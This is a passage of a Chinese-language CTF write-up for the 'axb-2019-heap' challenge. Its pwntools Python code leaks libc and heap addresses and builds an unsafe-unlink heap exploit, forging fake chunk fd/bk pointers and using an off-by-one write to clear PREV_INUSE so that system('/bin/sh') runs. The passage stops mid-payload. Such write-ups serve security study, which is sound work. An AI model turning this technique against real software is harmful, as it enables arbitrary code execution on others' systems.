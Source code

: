 ```Python
    log.success('heap_ptr => ' + hex(heap_ptr))
    log.success('__free_hook => ' + hex(__free_hook))
    log.success('system_addr => ' + hex(system_addr))
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;进而获取相关的libc基址等信息；

![](./axb-2019-heap/image_4.png)

&ensp;&ensp;&ensp;&ensp;接着构造unsafe unlink attack；

```Python
def add(index, size, content):
    p.recvuntil(">> ")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":\n")
    p.sendline(str(size))
    p.recvuntil(": \n")
    p.sendline(content)

def delete(index):
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil(":\n")
    p.sendline(str(index))

def show():
    p.sendline("3")

def edit(index, content):
    p.recvuntil(">> ")
    p.sendline("4")
    p.recvuntil(":\n")
    p.sendline(str(index))
    p.recvuntil(": \n")
    p.sendline(content)

def unlink():
    show()                            # 这是为了响应leak时触发的menu
    # add(0, 0x88, 'a' * 0x90)        # 0x88不合适，因为构造fake chunk的时候，chunk_size为0x80
    add(0, 0x98, 'a' * 0x90)
    # debug(0)
    add(1, 0x90, 'b' * 0x90)
    add(2, 0x88, '/bin/sh\x00')         # system('/bin/sh')
    # debug(0)
    
    payload  = p64(0)                   # fake prev_size
    payload += p64(0x91)                # fake size
    payload += p64(heap_ptr - 0x18)     # fake fd
    payload += p64(heap_ptr - 0x10)     # fake bk(target)
    payload += p64(0) * 14              # padding 
    payload += p64(0x90)                # fake prev_size
    payload += b'\xa0'                  # off-by-one to change PREV_INUSE of next chunk
```